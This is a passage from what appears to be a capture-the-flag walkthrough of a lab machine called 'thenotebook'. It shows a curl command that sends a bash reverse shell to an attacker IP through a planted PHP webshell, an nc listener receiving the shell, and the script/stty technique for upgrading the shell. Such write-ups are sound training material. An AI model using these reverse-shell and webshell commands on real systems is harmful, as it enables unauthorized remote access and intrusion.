 To get a shell from that, I’ll start `nc` listening and replace `id` with a
reverse shell payload:

    
    
    oxdf@parrot$ curl --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.19/443 0>&1'" -G -s http://10.10.10.230/a1ba6293840f8a8fb4d5dda74c98c90a.php
    

`curl` just hangs, but at `nc` there’s a shell:

    
    
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.19] from (UNKNOWN) [10.10.10.230] 59216
    bash: cannot set terminal process group (1112): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@thenotebook:~/html$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

I’ll upgrade my shell using the `script` / `stty` trick (`python` and `pty`
work as well):

    
    
    www-data@thenotebook:~/html$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    www-data@thenotebook:~/html$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@thenotebook:~/html$ 
    

## Shell as noah

### Enumeration

I’m dropped into `~/html` (which is `/var/www/html`), but the only file there
is my webshell:

    
    
    www-data@thenotebook:~/html$ ls -l
    total 4
    -rw-r--r-- 1 root root 35 Jul 22 01:15 a1ba6293840f8a8fb4d5dda74c98c90a.php
    

This is really weird, and I’ll dig into it in Beyond Root.

`ifconfig` does show that I’m on the host machine (10.10.10.230), but also
that there’s a Docker network:

    
    
